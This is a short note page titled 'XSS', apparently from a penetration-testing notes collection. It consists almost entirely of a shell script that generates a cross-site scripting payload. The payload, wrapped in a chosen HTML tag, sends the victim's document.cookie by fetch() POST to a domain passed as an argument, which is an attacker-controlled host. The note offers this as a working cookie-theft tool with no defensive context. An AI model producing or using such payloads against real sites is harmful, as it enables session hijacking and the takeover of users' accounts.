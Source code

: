 # XSS

Script for generating fetch commands

<pre class="language-bash"><code class="lang-bash"><strong>#!/bin/sh
</strong>target_domain=$1
tag=$2

cat &#x3C;&#x3C; EOF
&#x3C;$tag>
fetch('https://$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
&#x3C;$tag>
EOF

</code></pre>
